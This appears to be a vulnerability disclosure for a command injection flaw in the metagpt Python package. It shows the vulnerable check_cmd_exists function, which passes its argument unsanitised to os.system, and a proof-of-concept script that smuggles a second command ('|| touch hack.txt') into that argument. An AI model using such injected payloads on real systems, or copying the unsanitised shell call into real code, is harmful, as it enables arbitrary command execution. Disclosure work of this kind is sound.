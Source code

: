 # Command Injection in metagpt(PyPI)
## Basic information
Author: Chuanhao Wan(wanchuanhao@hust.edu.cn)

Vulnerable pypi package: metagpt

Npm url: https://pypi.org/project/metagpt/

Github url: https://github.com/geekan/MetaGPT

Affected version: <=0.8.1

Vulnerable file: metagpt/utils/common.py

The vulnerable function(line 45-55) in the vulnerable file is:
```python
def check_cmd_exists(command) -> int:
    """检查命令是否存在
    :param command: 待检查的命令
    :return: 如果命令存在，返回0，如果不存在，返回非0
    """
    if platform.system().lower() == "windows":
        check_command = "where " + command
    else:
        check_command = "command -v " + command + ' >/dev/null 2>&1 || { echo >&2 "no mermaid"; exit 1; }'
    result = os.system(check_command)
    return result
```
Command injection vulnerability can be triggered in ```check_cmd_exists``` function at line 54 in the file, because the argument  ```command``` is not checked and validated before being executed.

## Exploit
Environment prepare: Linux, python 3.9+, ```pip install metagpt```

exploit.py:
```python
import metagpt.utils.common as c

payload = 'bcudsvcutgqvec || touch hack.txt'
c.check_cmd_exists(payload)
```
Run ```python exploit.py```, the ```payload``` will be executed and create a ```hack.txt``` file in work folder.
Almost all commands can be encapsulated within the payload for execution.
